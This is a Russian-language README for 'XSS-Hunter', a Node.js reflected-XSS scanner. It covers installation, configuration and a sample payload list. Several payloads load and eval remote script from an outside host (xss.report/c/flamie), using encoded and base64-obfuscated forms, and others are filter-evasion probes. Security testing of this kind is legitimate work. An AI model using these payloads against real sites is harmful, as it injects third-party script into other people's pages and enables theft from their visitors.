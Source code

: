 # XSS-Hunter

XSS-Hunter: Простой Сканер Уязвимостей XSS

XSS-Hunter — это простой, но эффективный сканер для поиска уязвимостей Cross-Site Scripting (XSS) на веб-сайтах. Этот инструмент разработан для автоматического обнаружения отраженных XSS через различные векторы, включая параметры URL, данные форм (GET/POST) и HTTP-заголовки. Он также поддерживает базовый краулинг для обнаружения большего количества потенциально уязвимых страниц.

Основные возможности:

   Сканирование параметров URL: Проверяет GET и POST параметры на наличие отраженных XSS.
   Анализ и тестирование форм: Автоматически извлекает формы со страниц и внедряет пейлоады во все их поля.
  Тестирование HTTP-заголовков: Проверяет распространённые заголовки (User-Agent, Referer, Cookie, X-Forwarded-For) на предмет отражения.
   Базовый краулинг: Обходит страницы целевого сайта для расширения области сканирования.
   Настраиваемые пейлоады и цели: Использует файлы для загрузки списков пейлоадов и целевых URL.
  Логирование результатов: Сохраняет все найденные уязвимости и информацию о сканировании в структурированные файлы логов.
  Верификация XSS (опционально): Позволяет настроить внешний сервер для подтверждения выполнения JavaScript, что снижает количество ложных срабатываний.
  Контроль параллелизма и ретраи: Ограничивает количество одновременных запросов и повторяет неудачные попытки для повышения надёжности.

Начало работы

Чтобы начать пользоваться XSS-Hunter, вам необходимо выполнить несколько простых шагов.
Требования

   Node.js: Убедитесь, что у вас установлена актуальная версия Node.js (рекомендуется LTS). Вы можете скачать её с официального сайта Node.js.

Установка
    Клонируйте репозиторий
    
    git clone https://github.com/your-username/xss-hunter.git

cd xss-hunter

(Замените your-username на имя вашего пользователя GitHub после публикации).

Установите зависимости:
Bash

    npm install

Конфигурация

Перед запуском сканера вам нужно настроить файлы с пейлоадами и целевыми URL, а также (опционально) изменить параметры в коде.

   payloads.txt: Создайте этот файл в корневой директории проекта. Каждая строка в нём должна содержать один XSS-пейлоад.
    Пример payloads.txt:

    <script>alert(1)</script> 
    "><script>alert(1)</script>
    '><script>alert(1)</script>
    "><img src=x onerror=alert(1)>
    <svg onload=alert(1)>
    <iframe src="javascript:alert(1)"></iframe>
    <math href="javascript:alert(1)">CLICK</math>
    <video><source onerror="alert(1)">
    <details open ontoggle=alert(1)>
    <marquee onstart=alert(1)>
    <isindex action=javascript:alert(1)>
    <base href="javascript://"><script>alert(1)</script>
    <embed src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
    <svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
    "><style>@keyframes x{}</style><svg onload=alert(1)>
    <script/src=data:text/javascript,alert(1)>
    "><script src=//0x7f.0x0/alert(1)></script>
    "><object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
    <svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
    <svg><foreignObject><iframe src=javascript:alert(1)></iframe></foreignObject></svg>
    <svg><script xlink:href="data:image/svg+xml,%3Cscript%3Ealert(1)%3C/script%3E"></script></svg>
    "><input autofocus onfocus=alert(1)>
    '"><script src=https://xss.report/c/flamie></script>
    javascript:eval('var a=document.createElement(\'script\');a.src=\'https://xss.report/c/flamie\';document.body.appendChild(a)')
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*&lt;svg/*/onload=(import(/https:\xss.report\c\flamie/.source))//>
    %3Cbody%20onload=%22var%20a=document.createElement('script');a.src='https://xss.report/c/flamie';document.body.appendChild(a)%22%3E
    %22%3E%3Cimg%20src=x%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2ZsYW1pZSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%20onerror=eval(atob(this.id))%3E
    javascript:%22/*'/*%60/*--%3E%3C/noscript%3E%3C/title%3E%3C/textarea%3E%3C/style%3E%3C/template%3E%3C/noembed%3E%3C/script%3E%3Chtml%20%22%20onmouseover=/*&lt;svg/*/onload=(import(/https:%5Cxss.report%5Cc%5Cflamie/.source))//%3E
    %3Cscript%3Efetch(%22//xss.report/c/flamie%22).then(r=%3Er.text()).then(t=%3Eeval(t))%3C/script%3E
    var%20a=document.createElement(%22script%22);a.src=%22https://xss.report/c/flamie%22;document.body.appendChild(a);
    '%22%3E%3Cscript%20src=https://xss.report/c/flamie%3E%3C/script%3E
    "><form><button formaction="javascript:alert(1)">X</button></form>
    "><button formaction="javascript:alert(1)">CLICK</button>
    <svg xmlns="http://www.w3.org/2000/svg"><script href="data:,alert(1)"/>
    "><script id="xss">eval(atob('YWxlcnQoMSk='))</script>
    <iframe srcdoc="<script>alert(1)</script>">
    <svg><animate attributeName="href" values="javascript:alert(1)" />

  url.txt: Создайте этот файл в корневой директории проекта. Каждая строка должна содержать один полный URL целевого сайта, который вы хотите сканировать.
    Пример url.txt:

    http://testphp.vulnweb.com/
    http://www.example.com/

   CONFIG в main.js (опционально): Откройте файл main.js и отредактируйте объект CONFIG в верхней части файла, если вам нужны особые настройки.
    JavaScript

    const CONFIG = {
        payloadsFile: 'payloads.txt',
        targetsFile: 'url.txt',
        logDir: 'log',
        commonPaths: ['/', '/search', '/index.php', '/catalog', '/blog', '/products', '/news', '/admin', '/login', '/register'],
        commonParams: ['q', 's', 'search', 'query', 'term', 'id', 'item', 'page', 'input', 'keywords', 'txt', 'user', 'password'],
        concurrencyLimitPerSite: 5,
        timeout: 30000,
        maxCrawlDepth: 3,
        // --- ОПЦИОНАЛЬНО ---
        // Укажите URL вашего контролируемого сервера для верификации XSS.
        // Если пусто или null, верификация исполнения JS будет пропущена (только проверка отражения).
        // Пример: 'http://your-controlled-server.com'
        verificationServer: null, // ИЗМЕНИТЕ ЭТО НА СВОЙ СЕРВЕР ДЛЯ РЕАЛЬНОЙ ВЕРИФИКАЦИИ!
        // -------------------
        customHeaders: {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
        },
        retryAttempts: 3,
        retryFactor: 2,
        retryMinTimeout: 1000,
        retryMaxTimeout: 5000
    };

   Особое внимание уделите verificationServer: Если вы хотите получать реальное подтверждение выполнения XSS-пейлоада (а не только его отражение на странице), вам нужно развернуть простой HTTP-сервер, который будет слушать входящие запросы на указанный URL и записывать их. Если этот параметр null, сканер будет сообщать о "потенциальной XSS" только на основе отражения пейлоада, что может привести к ложным срабатываниям.

Запуск сканера

После настройки файлов и (опционально) CONFIG, вы можете запустить сканер:
Bash

    node main.js

Сканер начнет работу, обходя целевые URL и тестируя их на XSS. Все найденные уязвимости будут записываться в поддиректории внутри папки log/.
Результаты сканирования

Все логи и найденные уязвимости сохраняются в директории log. Для каждого запуска сканера будет создана новая папка вида log N (например, log 1, log 2), а внутри неё — отдельные папки для каждого сканируемого домена. В этих папках вы найдёте текстовые файлы с подробной информацией о найденных XSS, включая URL, использованный пейлоад, параметр и метод запроса.
